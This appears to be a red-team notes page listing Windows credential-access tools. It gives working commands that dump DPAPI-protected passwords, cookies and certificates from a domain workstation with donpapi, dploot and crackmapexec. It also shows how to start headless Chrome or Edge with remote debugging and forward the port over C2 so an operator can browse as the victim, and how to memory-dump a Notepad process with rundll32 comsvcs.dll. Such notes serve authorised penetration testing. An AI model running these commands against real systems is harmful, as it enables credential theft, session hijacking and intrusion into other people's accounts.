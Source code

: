 ```yaml
---
title: Application Credential Access
---
```


The following tools can be used to [[notes/mitre-attack/credential-access|access credentials]] from various [[notes/windows/index]] desktop applications.
Many of them are protected by [[notes/windows/dpapi-dump|DPAPI]].

Tool | Language | Access | Supported Applications
-----|----------|--------|-----------------------
[[notes/tools/donpapi]] | Python | Remote | Credential Manager, Vault, Certificates, Internet Explorer, Chrome, Edge, Firefox, WiFi, VNC, mRemoteNG
[[notes/tools/dploot]] | Python | Remote | Credential Manager, Vault, Certificates, Remote Desktop Connection Manager, Chrome, Edge, Firefox, WiFi
[[notes/tools/crackmapexec]] | Python | Remote | Uses dploot
[[notes/tools/lazagne]] | Python | Local | Chrome, Edge, Firefox, Outlook, Thunderbird, FileZilla, KeePass, WinSCP and many more
[SharpChromium](https://github.com/djhohnstein/SharpChromium) | C# | Local | Chome, Edge
[ThunderFox](https://github.com/V1V1/SharpScribbles/) | C# | Local | Firefox, Thunderbird
[offline_address_book_extractor.py](https://github.com/api0cradle/RedTeamScripts/blob/main/offline_address_book_extractor.py) | Pyhton | Offline | Outlook address book parser
[OutlookSpy](https://github.com/acole76/OutlookSpy) | C# | Local | Outlook
[SessionGopher](https://github.com/Arvanaghi/SessionGopher) | PowerShell | Local | WinSCP, PuTTY, FileZilla, RDP
[strings2](https://github.com/glmcdona/strings2) + [ProcessStringExtractor](https://gist.github.com/LuemmelSec/3f2c4b7642dc7b2ae63601ed02ec3db5) | C + PowerShell | Local | generic, find patterns in process memory

Dump DPAPI-protected secrets remotely and decrypt them with the domain backup key, the users password or NT hash.

=== "[[notes/tools/donpapi]]"
    Worked, but crashed in the end.

    ~~~ bash
    donpapi -o ./ws01/dpapi -pvk ./corp.pvk -local_auth administrator:'passw0rd'@ws01.corp.local
    donpapi -o ./ws01/dpapi -credz ./passwords.txt -local_auth administrator:'passw0rd'@ws01.corp.local
    donpapi -o ./ws01/dpapi -credz ./nthashse.txt -local_auth administrator:'passw0rd'@ws01.corp.local
    ~~~

=== "[[notes/tools/dploot]]"
    Failed during testing.

    ~~~ bash
    dploot triage -dump-all -export-triage ./ws01/dpapi -pvk ./corp.pvk -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -pvk ./corp.pvk -u administrator -p 'passw0rd' ws01.corp.local
    dploot triage -dump-all -export-triage ./ws01/dpapi -passwords ./passwords.txt -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -passwords ./passwords.txt -u administrator -p 'passw0rd' ws01.corp.local
    dploot triage -dump-all -export-triage ./ws01/dpapi -nthashes ./nthashes.txt -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -nthashes ./nthashes.txt -u administrator -p 'passw0rd' ws01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    As unprivileged user dump your own secrets, as local admin dump secrets from every user whose password is stored in CMEDB or as domain admin utilizing the domain backup keys.
    Uses [[notes/tools/dploot]] under the hood ([source](https://twitter.com/mpgn_x64/status/1627638010203316227)).

    ~~~ bash
    crackmapexec smb ws01.corp.local --local-auth -u administrator -p passw0rd --dpapi passwords && crackmapexec smb ws01.corp.local --local-auth -u administrator -p passw0rd --dpapi cookies
    ~~~

Untested tools:

- [hekatomb](https://github.com/processus-thief/hekatomb), dumps domain backup keys, downloads credential files from all domain computers, decrypts the files

References:

- [Extracting Encrypted Credentials from Common Tools](http://web.archive.org/web/20230816141251/https://scribe.rip/@xm-cyber/extracting-encrypted-credentials-from-common-tools-ceb83e7304ce), WinSCP, RoboMongo, MobaXterm
- [Analyzing LastPass, part 1](http://web.archive.org/web/20221012111523/https://www.mdsec.co.uk/2022/10/analysing-lastpass-part-1/)
- [Relaying YubiKeys](http://web.archive.org/web/20220919230832/https://cube0x0.github.io/Relaying-YubiKeys/)

## Chrome Remote Debugging

Start Chrome in headless and remote debugging mode.

~~~ bat
"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --remote-debugging-port=9222 --remote-debugging-address=127.0.0.1 --user-data-dir=%TEMP%\headless.profile --ignore-certificate-errors about:blank --headless
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --remote-debugging-port=9222 --remote-debugging-address=127.0.0.1 --user-data-dir=%TEMP%\headless.profile --ignore-certificate-errors about:blank --headless
~~~

Reverse forward the debug port over your C2.

Open Chrome on your machine and go to `chrome://inspect`.
Now you can browse the web in the name of your victim.

Untested tools:

- [WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut), dumps cookies from debug port of Chromium-based browsers

References:

- [Debugging Cookie Dumping Failures with Chromiums Remote Debugger](http://web.archive.org/web/20230721071951/https://scribe.rip/@slyd0g/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
- [twitter.com/an0n_r0/status/1670007830072500225](https://twitter.com/an0n_r0/status/1670007830072500225)
- [Headless Remote Chrome Debugging](https://gist.github.com/NotMedic/b1ab7809eea94cc05513905b26964663)
- [Stalking inside of your Chromium Browser](https://web.archive.org/web/20221202231214/https://scribe.rip/@specterops/stalking-inside-of-your-chromium-browser-757848b67949)

# Unsaved Notepad

Dump the content of an open `notepad.exe` window that is not written to a file ([source](https://twitter.com/NinjaParanoid/status/1695682038593110193)):

~~~ bat
rundll32.exe comsvcs.dll MiniDump %PID% .\notepad.log full
strings.exe --encoding=l .\notepad.log
~~~

# Notepad++ Backups

Inspect files in `%USERPROFILE%\AppData\Roaming\Notepad++\backup`.
